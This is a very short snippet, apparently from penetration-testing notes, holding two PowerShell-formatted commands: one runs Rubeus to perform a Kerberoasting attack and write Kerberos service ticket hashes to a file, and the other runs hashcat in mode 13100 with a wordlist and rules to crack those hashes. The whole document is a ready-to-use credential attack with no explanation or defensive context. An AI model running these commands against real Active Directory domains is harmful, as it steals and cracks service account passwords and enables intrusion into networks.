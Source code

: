 ```powershell
.\Rubeus.exe kerberoast /outfile:hashes.kerberoast
```

```powershell
hashcat -m 13100 hashes.kerberoast `fzf-wordlist` -r /usr/share/hashcat/rules/best64.rule --force
```